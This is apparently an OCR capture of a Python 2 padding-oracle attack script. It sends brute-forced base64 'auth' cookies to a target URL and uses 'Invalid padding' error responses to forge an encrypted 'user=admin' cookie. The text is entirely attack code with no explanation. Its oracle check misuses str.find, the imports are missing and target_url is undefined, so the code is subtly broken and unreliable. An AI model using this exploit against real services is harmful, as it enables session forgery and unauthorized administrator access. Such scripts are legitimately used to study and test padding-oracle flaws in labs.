 ```
 # Set known cipher text in order to decrypt
 cipher_text = "fM2H6W2coHwhfadXl%2BFR1i%2BCQDeQg5sy"

 # Set padding list
 padding_list = ['01', '02', '03', '04', '05', '06', '07', '08']

 # Set plain text in order to encrypt
 plain_text = 'user=admin'

 # Break plain text to HEX list
 plain_hex_list = re.findall('.{1,2}', plain_text.encode('hex'))
 n_length = len(plain_hex_list)

 # Break cipher text to HEX list
 #cipher_hex = base64.b64decode(cipher_text).encode('hex')
 #cipher_hex_list = re.findall('.{1,2}', cipher_hex)

 # Get the number of Block
 n_block = (n_length/8 + 1)

 # Get the number of padding
 n_padding = (n_block*8 - n_length)

 # Padding the plain text
 for i in range(0, n_padding):
	plain_hex_list.append(padding_list[n_padding-1])

 c_list = ['00'] * 8
 i_list = ['00'] * 8
 tmp_e_list = ['00'] * (8 * n_block)
 new_cipher_full = '00' * 8

 # Brute force decrypt
 for index in range(0, n_block):
	print ('Start block: ' + str(n_block-index) + ' out of ' + str(n_block))

	for i in range(0,256):
		tmp_e_list[7] = ("%0.2x" % i)
		payload_encoded = base64.b64encode("".join(tmp_e_list).decode('hex'))
		cookie = dict(auth=payload_encoded)

		r = requests.get(target_url, cookies = cookie)
		if r.text.find('Invalid padding'):
			print (i)
			i_list[7] = "%0.2x" % (int(tmp_e_list[7],16) ^ int(padding_list[0],16))
			break

	for i_padding in range(1, 8):
		print ("i padding: "+str(i_padding))
		for x in range(0,i_padding):
			tmp_e_list[(7-x)] = "%0.2x" % (int(padding_list[i_padding],16) ^ int(i_list[(7-x)],16))
		for i in range(0,256):
			tmp_e_list[(7-i_padding)] = ("%0.2x" % i)		
			payload_encoded = base64.b64encode("".join(tmp_e_list).decode('hex'))
			cookie = dict(auth=payload_encoded)
			r = requests.get(target_url, cookies = cookie)

			if r.text.find('Invalid padding'):
				i_list[(7-i_padding)] = "%0.2x" % (int(tmp_e_list[(7-i_padding)],16) ^ int(padding_list[i_padding],16))
				break

 ```